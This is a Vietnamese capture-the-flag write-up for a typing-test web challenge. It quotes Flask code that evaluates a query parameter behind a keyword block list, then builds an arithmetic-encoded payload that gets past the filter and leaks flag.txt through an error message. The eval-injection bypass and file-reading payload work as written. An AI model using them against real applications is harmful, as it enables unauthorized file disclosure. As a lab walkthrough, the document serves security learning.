


WPM

Đây là một bài test tốc độ gõ phím, khi bắt đầu, màn hình sẽ hiện lên dòng chữ cho ta gõ theo

Source câu này chỉ có file `app.py`, khá đơn giản.

```Python
@app.route("/rate")
def rate_wpm():
    try:
        wpm = request.args.get("wpm", "")
    except ValueError:
        return jsonify(error="invalid wpm"), 400
    if check(wpm):
        return "Invalid WPM!"
    return jsonify(verdict=rate(eval(wpm.lower())), wpm=float(wpm))
```

Khi đọc source, mình thấy rằng route `/rate` lấy tham số **wpm** để check bằng **`rate(eval(wpm.lower())`**, từ đó ý tưởng của mình là chèn payload vào tham số wpm để đọc flag. Nhưng trước đó mình phải vượt qua hàm `check`:

```Python
def check(string):
    # Oops chat I might have accidently made it unsolvable. Only one way to find out? Let's see if you are 1337 enough
    string = string.lower()
    disallowed = [".","_","import", "=", ",", "'", '"', "attr", "global", "local", ";", ":", "^", "/", ">", "<", "{", "}", "m", "a", "not", "and", "or", "eval", "exec", "for", "in", "chr", "ord", "hex", "int", "repr", "str", "dir", "set", "len", "SENTENCES", "random", "request", "app", "flask"]
    c = any([x in string for x in disallowed]) 
    non_ascii = any([ord(x) < 32 for x in string]) or any([ord(x) > 126 for x in string])
    return c or non_ascii or len(set(string)) > 18
```

Hàm này filter những từ trong mảng **disallowed**, và chuỗi đầu vào phải chứa kí tự ascii, và số kí tự khác nhau không được lớn hơn 18. Để ý một tí, hàm còn cho phép các từ 'open' và 'bytes', cùng các toán tử như '+','-'.

Research một lúc, mình thấy post [eval bypass]([zeroday.academy/bypassing-python-eval-filters-ascii-encoding-attack-in-picoctf-2025](https://zeroday.academy/bypassing-python-eval-filters-ascii-encoding-attack-in-picoctf-2025/)) khá hiệu quả, mình có ý tưởng payload ban đầu như sau:

```
open(bytes[[102]+[108]+[97]+[103]+[46]+[116]+[120]+[116]])
```

mục đích là để tạo thành command `open(b'flag.txt')`. Nhưng payload này bị dính lỗi số lượng kí tự khác nhau lớn hơn 18, thế nên mình đã biểu diễn các số dưới dạng biểu thức 10 và 2. Ví dụ:

```
102 = 10**2 + 2
```

Khi đó payload thành

```
open(bytes([10**2+2]+[10**2+10-2]+[10**2-2-1]+[10**2+2+1]+[(10+10+2+1)*2]+[10**2+10+2+2+1+1]+[(10+2)*10]+[10**2+10+2+2+1+1]))
```



Mình thử payload thì thấy báo không thấy file, mình thử lại với payload `b'app/flag.txt` thì dính lỗi **TypeError: '<' not supported between instances of '_io.TextIOWrapper' and 'int'**. Cái này có nghĩa là đã mở được file, nhưng nó lại trả về kiểu object, thành ra không so sánh được với `<` . Nhưng nếu ta thêm *open nữa, thì nó sẽ biến tên file thành tham số, tức là

```
open(b'app/flag.txt') thì nó sẽ mở file
Nhưng nếu *open(b'app/flag.txt') thì nó sẽ biến những dòng trong đó thành tham số
```

Từ đó payload chính xác là:

```
open(*open(b'app/flag.txt'))
open(*open(bytes([(10+10+2+1)*2+1]+[10**2-2-1]+[(10+2)*10-2-2-2-2]+[(10+2)*10-2-2-2-2]+[(10+10+2+1)*2+1]+[10**2+2]+[10**2+10-2]+[10**2-2-1]+[10**2+2+1]+[(10+10+2+1)*2]+[10**2+10+2+2+1+1]+[(10+2)*10]+[10**2+10+2+2+1+1])))
```


